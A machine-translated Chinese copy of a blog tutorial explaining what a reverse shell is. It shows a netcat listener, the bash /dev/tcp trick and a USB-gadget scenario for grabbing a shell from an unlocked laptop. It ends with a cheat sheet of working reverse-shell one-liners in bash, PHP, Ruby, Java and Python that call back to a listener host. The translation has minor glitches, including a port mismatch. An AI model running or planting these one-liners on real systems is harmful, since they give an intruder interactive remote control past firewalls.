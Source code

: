# 反壳！？！

> 原文：<https://medium.com/hackernoon/reverse-shell-cf154dfee6bd>

![](img/6709b0065e9749cd856beaa66ea016d3.png)

什么是反向外壳？你跳上那只乌龟，它会从墙上反弹回来，对吗？

不完全是，但是，你不是唯一一个无知的人。令人惊讶的是，许多人实际上并不知道什么是反向外壳。长话短说，这是当一台计算机连接到另一台计算机，但发起计算机转发他们的外壳到目的地。在攻击过程中或作为测试的一部分，经常会出现反向外壳。它们是可怕的攻击，因为它在机器上给了攻击者一个交互式外壳，他们不应该访问“硬化”区域的内部。

让我们来分析一下这是如何工作的。首先，有一台机器监听某个特定的 tcp 端口。在这种情况下使用 netcat。

```
$ nc -vlp 80 
-v, — verbose Set verbosity level (can be used several times); 
-l, — listen Bind and listen for incoming connections; 
-p, — source-port port Specify source port to use 
([http://man7.org/linux/man-pages/man1/ncat.1.html](http://man7.org/linux/man-pages/man1/ncat.1.html)) 
```

很简单，只是一个特定端口上的监听器。其次，我们需要另一台机器，即受害者，连接到这台机器，然后将会话转发给它。根据可用的资源，有无数种方法来建立这种连接。这就是 bash 的用法

```
$ bash -i >& /dev/tcp/192.168.1.142/80 0>&1
```

命令 *bash -i > &* 调用带有“交互式”选项的 bash。然后*/dev/tcp/192 . 168 . 1 . 142/7023*通过设备文件将该会话重定向到 TCP 套接字。
最后*0>1*取标准输出，并连接到标准输入。

原来 linux 已经构建了一个 */dev/tcp* 设备文件。虽然这个文件非常强大和有用，但是如果以这种方式使用，它可能会非常危险。这个内置的设备文件让 bash 可以直接连接到任何 ip 和任何端口。如果您想确认某个端口是否打开，或者检查时间，这也很有用。

```
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)$ echo > /dev/tcp/[www.google.com/80](http://www.google.com/80)$ cat </dev/tcp/time.nist.gov/1357991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) *
```

[](http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip) [## 关于使用 Bash 内置的/dev/tcp 文件(TCP/IP)的更多信息

### 如果您看到了昨天的技术技巧，并且正在寻找更多关于将 TCP/IP 与 bash 的内置/dev/tcp 设备文件一起使用的信息…

www.linuxjournal.com](http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip) 

这有什么可怕的？netcat 可以监听任何端口，在这个例子中，它监听端口 80。这意味着连接和通过该管道的所有流量看起来都像普通的 http 流量，如果该端口在您的一台主机上打开(通常如此)，那么无论您使用哪种防火墙，都无法阻止反向外壳控制您。随后，它不会阻止防火墙内的一台可以访问互联网的机器** *咳* *咳*笔记本电脑使用允许的端口，然后转到内部局域网上任何可以访问的地方。

玩反向贝壳真的很有趣，尤其是如果你有一个橡胶鸭子或一只巴什兔子。这样你就可以走到一台不安全的笔记本电脑前(当然，你有合法的权限)窃取一个外壳。然后等你的受害者回来…

```
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
```

[](https://hakshop.com/collections/usb-rubber-ducky) [## USB 橡胶鸭子

### 编辑描述

hakshop.com](https://hakshop.com/collections/usb-rubber-ducky) [](https://hakshop.com/products/bash-bunny) [## 狂欢兔子

### 世界上最先进的 USB 攻击平台。它打开了攻击面，这在以前是不可能的…

hakshop.com](https://hakshop.com/products/bash-bunny) 

最后，这里有一些例子，允许一个 shell 在一大堆不同的语言中运行，因为并不是所有的东西都有 bash，只是大部分的东西。

```
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; donePHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3\. If it doesn’t work, try 4,5, or 6)RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

 [## 反向外壳备忘单

### 如果你足够幸运，在渗透测试中发现了一个命令执行漏洞，很快你就会…

pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) [](https://highon.coffee/blog/reverse-shell-cheat-sheet/) [## 反向外壳备忘单

### 反向 Shell 备忘单，用于连接回的反向 Shell 列表

highon .咖啡](https://highon.coffee/blog/reverse-shell-cheat-sheet/)